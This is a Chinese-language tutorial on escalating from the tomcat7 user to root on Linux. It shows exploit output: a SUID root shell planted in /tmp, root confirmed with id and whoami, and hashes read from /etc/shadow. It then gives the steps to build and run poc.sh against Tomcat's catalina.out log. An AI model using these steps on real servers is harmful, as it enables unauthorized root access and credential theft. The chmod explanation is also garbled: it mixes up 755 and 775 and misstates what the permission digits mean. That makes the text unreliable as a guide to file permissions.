 ```bash
[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

Please tell me you're seeing this too ;)
  

[+] Executing the rootshell /tmp/tomcatrootsh now! 

tomcatrootsh-4.3# id
uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)
tomcatrootsh-4.3# whoami
root
tomcatrootsh-4.3# head -n3 /etc/shadow
root:$6$oaf[cut]:16912:0:99999:7:::
daemon:*:16912:0:99999:7:::
bin:*:16912:0:99999:7:::
tomcatrootsh-4.3# exit
exit
```

首先我们下载poc文件，然后执行命令cd /tmp进入目录,然后编辑文件vim poc.sh。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入:wq，之后按 Enter 键将文件保存。

如果无法写入文件，使用命令


```bash
chmod 755 poc.sh
```

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

* 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
* 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
* 1：设置粘着位。

![7f3bc2622a1341a497439a19bcd57837](images/7f3bc2622a1341a497439a19bcd57837.gif)


这时，poc文件就已经构造好了，接下来运行脚本运行命令为：


```bash
./poc.sh /var/log/tomcat7/catalina.out
```

运行之后，会出现卡顿现象，这时候我们切换到root用户，重新启动Tomcat7，这时候使用命令whoami查看当前用户，这时候已经是 root 用户了，这时候就提权成功了

![2946b5ebd3d647c5850c84efacf74ae8](images/2946b5ebd3d647c5850c84efacf74ae8.gif)


可以看到，命令提示符的开头为tomcat低权限用户，而我们执行whoami命令的时候，显示的权限却是root，这样就成功的提权了。

**参考链接**

https://www.jianshu.com/p/94e4feac245f